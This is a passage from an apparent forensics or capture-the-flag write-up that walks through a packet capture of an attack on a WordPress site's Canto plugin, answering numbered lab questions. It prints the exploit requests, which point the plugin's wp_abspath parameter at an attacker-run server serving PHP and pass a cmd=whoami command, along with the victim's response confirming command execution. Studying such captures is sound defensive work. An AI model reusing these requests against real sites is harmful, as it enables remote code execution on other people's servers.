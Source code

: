 But now, we are interested in content, received from attacker server, this packet:
```
137047	539.359454	172.26.211.155	192.168.204.128	HTTP	74	HTTP/1.0 200 OK 
```

With this content:
```
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.12

<?php phpinfo(); ?>
```
Thay also answers what server is in use


Now, going to Q2, we need to see, what we got from victim server in a whoami request (for that we need to add ip.dst == 192.168.204.1 to the filters)
```
235875	1347.610435	192.168.204.1	192.168.204.128	HTTP	772	GET /wordpress/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://172.26.211.155:8000&cmd=whoami HTTP/1.1 
```

And the answer

```
138648	605.165676	192.168.204.128	192.168.204.1	HTTP	657	HTTP/1.1 200 OK  (text/html)
```

```
HTTP/1.1 200 OK

desktop-2r3ar22\administrator
<br />
<b>Fatal error</b>:  Uncaught Error: Call to undefined function sanitize_text_field() in C:\xampp\htdocs\wordpress\wp-content\plugins\canto\includes\lib\download.php:7
Stack trace:
#0 {main}
  thrown in <b>C:\xampp\htdocs\wordpress\wp-content\plugins\canto\includes\lib\download.php</b> on line <b>7</b><br />
```

Going to Q3, we need to get to other attempts, but now without any cmd parameters. Like

```
145191	822.723084	192.168.204.1	192.168.204.128	HTTP	761	GET /wordpress/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://172.26.211.155:8000 HTTP/1.1 
```
![Q3](image-10.png)
